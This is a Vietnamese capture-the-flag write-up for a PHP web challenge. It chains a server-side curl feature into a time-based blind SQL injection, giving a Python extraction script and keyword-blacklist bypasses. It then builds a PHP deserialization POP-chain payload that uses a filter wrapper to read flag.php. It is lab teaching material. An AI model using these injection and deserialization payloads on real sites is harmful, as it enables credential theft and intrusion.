

# KMA CTF Birthday - Web exploitation

## Description
Có một hacker vừa gửi mail cho công ty chúng tôi và nói rằng trang web của chúng tôi có một lỗ hổng cực kỳ nghiêm trọng. Hỡi các người anh em thiện lành có thể giúp chúng tôi tìm ra lỗ hổng đó và gửi report cho công ty chúng tôi để bên kỹ thuật sửa chữa, tất nhiên bạn cũng sẽ có thưởng!! XD

*Source code*: Phía trên.

**self note**: Bài này mình giải khi giải đã kết thúc từ lâu nên mình chỉ dựng lại để tập.

## Review Source-Code 1

Cấu trúc web-server:


**Tóm tắt**:

`index.php`: Nhận `url` parameter và curl nó và chỉ trả về status là true | false.

`admin/index.php`: Admin mới access được.

`api/checkUser.php`: Dính lỗi sql injection khi nối `id` parameter trực tiếp tuy nhiên chỉ ở localhost mới truy cập được trang này. Khá dễ đoán khi mình cần dùng tính năng `curl` trên để curl đến endpoint này, ở đây sql query không trả về bất cứ kết quả gì. Kết hợp với curl đây có lẽ là dạng `sql injection time based`.
```php
if ($_SERVER['REMOTE_ADDR'] === '127.0.0.1') {

  
  if (!isset($_GET['id'])) {
    echo json_encode(array('result' => 'Missing parameter!!'));
  } else {
    $id = $_GET['id'];
    $id = preg_replace('/join|group|having|or|select|from|where|\ /', '',$id);
    $query = 'SELECT * FROM users WHERE id='.$id;
    $result = $conn->query($query);

    if ($result->num_rows > 0) {
      //echo $result;  hmmmm?? Xin lỗi vì lí do bảo mật :))))
    }
  }
} else {
  echo json_encode(array('result' => $_SERVER['REMOTE_ADDR'].'Only localhost can access that feature!!!'));
}
```

# EXPLOIT STEP 1
Ta cần đọc được password của admin bằng time based sql injection

Xây tool bằng python, bypass các `keyword` ở `api/checkUser.php` bằng cách viết hoa nó lên, `dấu cách` có thể thế bằng cách dùng comment `/**/`.

**Python tool**:
```python
#/usr/bin/env python3
import requests
import time

url = 'http://localhost:10666/'
s = requests.Session()

flag = ''
for i in range(1,30):
  for c in range(32,127):
    print(flag + chr(c))
    payload = f"http://localhost/api/checkUser.php?id=1/**/AND/**/IF(SUBSTRING((SELECT/**/paSSwORd/**/FROM/**/users/**/WHERE/**/id=1),{i},1)='{chr(c)}',SLEEP(3),1)"
    try:
      r = s.post(url + 'index.php', data={"url": payload}, timeout=3)
    except:
      flag += chr(c)
      print(f'[FOUND] - {flag}')
      break
```

**account**: admin:admin_password_for_testing

*Thêm một vài lưu ý*:
  
  Khi query để ra username thì không sao nhưng đến `password` lại chẳng ra gì, thử nhiều mới nhớ ra đoạn `or` bị blacklist và replace mất nên cũng cần viết hoa nốt để bypass. MySQL(và phần lớn DBMS khác) cấu hình default là case-insensitive.

  Mình định dùng `ASCII()` MySQL function cho quen và nhằm tránh ký tự đặc biệt nếu gặp đỡ escapce nhưng không được, không dùng cũng không sao, có lẽ mình đã nhầm ở đâu đó nhưng lười thử lại, đã có password rồi.


*Logged-in as admin*:

`admin/index.php`:


## Review Source-Code 2

**Tóm Tắt**: 

`admin/index.php`: Ok một bài `serialize`, nhận data variable ở cookie mà mình có thể kiếm soát và `unserialize` nó.
```php
<?php 
require '../config.php';
require '../classes/chain.php';
 
if (isset($_SESSION['user']) && $_SESSION['user'] === 'admin')  {
  if (!isset($_COOKIE['data']))
    setcookie('data', base64_encode(serialize(new Url("http://www.ahihi.com"))));
  else {
    $cookie = base64_decode($_COOKIE['data']);
    if (preg_match('/\x00/', $cookie))
      die('Hacker detected :))))');
    else
      unserialize($cookie);
  }
}
else {
  die('Login as admin!!!');
}
?>
```
Chú ý sau khi `base64_decode` nó có check lại liệu `null byte(\x00)` có ở trong chuỗi, có thì trả về `Hacker Detect`.

`../classes/chain.php`: Ok dạng PHP unserialize POP Chains, phân tích dài dòng ở dưới

**Reference**: https://www.php.net/manual/en/language.oop5.magic.php

Tóm tắt  các `magic methods` trước khi review và generate `payload` nào:

**__wakeup()**: Tự động được gọi(Tdddg) sau khi object này được `unserialize()`, đây sẽ là startpoint của chain.

**__construct**:  Tdddg khi tạo 1 object từ class chứa nó đó.

**__invoke**: Tdddg khi gọi 1 object như là 1 hàm

**__toString()**: Tdddg khi "đối xử" với 1 object như string(ex: echo $obj; hay so sánh với string)

**__get()**: Tdddg khi gọi 1 object

Chain tất cả class lại với nhau(trừ class Url) và tạo ra payload nào. 

*Lưu ý*: Dùng lại tất cả các class trên để viết `serialized object` nhưng còn nhớ `Hacker Detect` phía trên chứ, theo PHP thì để biểu thị 1 `property` là private thì khi serialize nó sẽ add thêm `\x00` phía trước tên của property đó nên mình cần sửa `private $source;` của class `Source` thành `public $source;`.
```php
<?php
 
class Source {
  public $source; // trước đây là private $source;

  public function __construct($s) {
    $this->source = $s;
  }
  public function __invoke() {
    return $this->source->method;
  }
}


class File {
  public $file;

  public function __toString() {
    if (!preg_match('/^(http|https|php|data|zip|input|phar|expect):\/\//', $this->file)) {
      include($this->file);
    }
    return "Ahihhii";
  }
}

class Func2 {
  public $param;

  public function __wakeup() {
    $function = $this->param;
    return $function();
  }
}


class Func1 {
  public $param1;
  public $param2;

  public function __get($key) {
    $key = $this->param2;
    return $this->param1->$key();
  }
}

class Url {
  public $url;

  public function __construct($url) {
    $this->url = $url;
  }

  public function checkUrl() {
    if (preg_match('/[http|https]:\/\//', $this->url))
      return true;
    else
      return false;
  } 
}

# generate payload:
# Để viết chain mình(với mình) cần xác định `startpoint` và `endpoint` chính là class `Func2` và `File`.

// Lưu ý bypass php blacklist bằng Php
$fly = new File();
$fly->file = 'Php://filter/convert.base64-encode/resource=../flag.php'; // include flag.php được convert sang base64

$fun1 = new Func1();
$fun1->param1 = $fly;
$fun1->param2 = '__toString'; // gọi __toString() từ File

$src = new Source($fun1); // gọi __get() từ Func1

$fun2 = new Func2();
$fun2->param = $src; // gọi __invoke() từ Source

$data = serialize($fun2);

echo base64_encode($data) . "\n\n";
#unserialize($data); // gọi __wakeup() từ Func2

#Tzo1OiJGdW5jMiI6MTp7czo1OiJwYXJhbSI7Tzo2OiJTb3VyY2UiOjE6e3M6Njoic291cmNlIjtPOjU6IkZ1bmMxIjoyOntzOjY6InBhcmFtMSI7Tzo0OiJGaWxlIjoxOntzOjQ6ImZpbGUiO3M6NTU6IlBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9Li4vZmxhZy5waHAiO31zOjY6InBhcmFtMiI7czoxMDoiX190b1N0cmluZyI7fX19
```

Ok, với code trên chỉ cần tập trung đọc hiểu chắc chắn bạn sẽ hiểu, giải thích thành lời sẽ dài dòng và gây rối(tất nhiên là không phải vì mình lười(chắc thế)).

Đổi cookie variable `data` thành chuỗi base64 trên ta được:


**flag**: `KCSC{fake_flag_for_testing}`
